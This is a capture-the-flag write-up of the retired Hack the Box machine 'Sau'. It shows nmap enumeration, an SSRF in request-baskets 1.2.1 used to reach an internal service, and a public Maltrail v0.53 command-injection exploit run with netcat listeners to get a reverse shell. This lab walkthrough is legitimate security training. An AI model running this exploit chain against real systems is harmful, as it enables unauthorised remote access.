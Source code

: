 ```yaml
---
title: Sau
categories: HTB
tags: retired, easy, linux, SSRF
img_path: /assets/img/HTB/sau/
---
```


![Sau HTB machine card](Sau.png)

> Sau is an easy Linux machine from Hack the Box.
{: .prompt-tip }

## Enumeration

Let's start off with a basic nmap scan.

```
┌──(f0rest3xplorer㉿kali)-[~/Documents/HTB/sau]
└─$ nmap 10.10.11.224                             
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-14 15:07 MST
Nmap scan report for 10.10.11.224
Host is up (0.061s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT      STATE    SERVICE
22/tcp    open     ssh
80/tcp    filtered http
55555/tcp open     unknown

Nmap done: 1 IP address (1 host up) scanned in 11.14 seconds
```

SSH is probably not our ticket and port 80 is filtered, so 55555 is looking really interesting. Let's take a closer look and see what we have.

### Request Baskets

![Create a new basket](new_basket.png)
Visiting our ip address at port 55555 in a browser shows us a page called Request Baskets, which says it can collect and inspect HTTP requests.

Further investigation shows us that it is powered by request-baskets version 1.2.1. This should be helpful!

![Request Basket version 1.2.1](request_baskets_version.png)

Searching Google for request baskets version 1.2.1 reveals that it is vulnerable to server side request forgery (SSRF), CVE-2023-27163. Maybe we can use this to see what is on port 80?

Let's test it out by starting a netcat listener on our machine and see if we can reach it by creating a new basket.

```
┌──(f0rest3xplorer㉿kali)-[~/Documents/HTB/sau]
└─$ nc -lvnp 80
```

In the basket settings, let's configure it to forward the request to our Kali machine's IP address.

![Basket settings](forward_settings1.png)

Next, let's curl the basket using the URL provided

![Basket URL](basket_url.png)

Success! We are able to receive the request we sent on our netcat listener.

![Screenshot with nc listener](nc_request.png)

### SSRF

Now that we see how things work and know that it is vulnerable, let's see if we can use it to connect to the mysterious port 80. To do this, let's edit the settings for our basket again and set it to forward port 80 from `http://127.0.0.1` with Proxy Response and Expand Forward Path checked.

![Basket settings](forward_settings2.png)

Now when we go to the URL for the basket, it gives us a broken looking site. At the bottom, we notice it is running something called Maltrail v 0.53. 

![Maltrail site that is a little broken](maltrail.png)

Google shows us that this version is vulnerable to unauthenticated OS command injection (RCE). I found this Python exploit that should give us a reverse shell. https://github.com/spookier/Maltrail-v0.53-Exploit

To run the exploit, we just need to start a netcat listener (I chose port 9001), then run the exploit passing it our listening IP address and port, along with the url for our basket.

```
┌──(f0rest3xplorer㉿kali)-[~/Documents/HTB]
└─$ python3 maltrail.poc.py 10.10.14.6 9001 http://10.10.11.224:55555/ionzxhf
```

![Reverse shell](rev_shell.png)
Hooray! We now have a reverse shell, it looks like we're currently running as the user "puma".


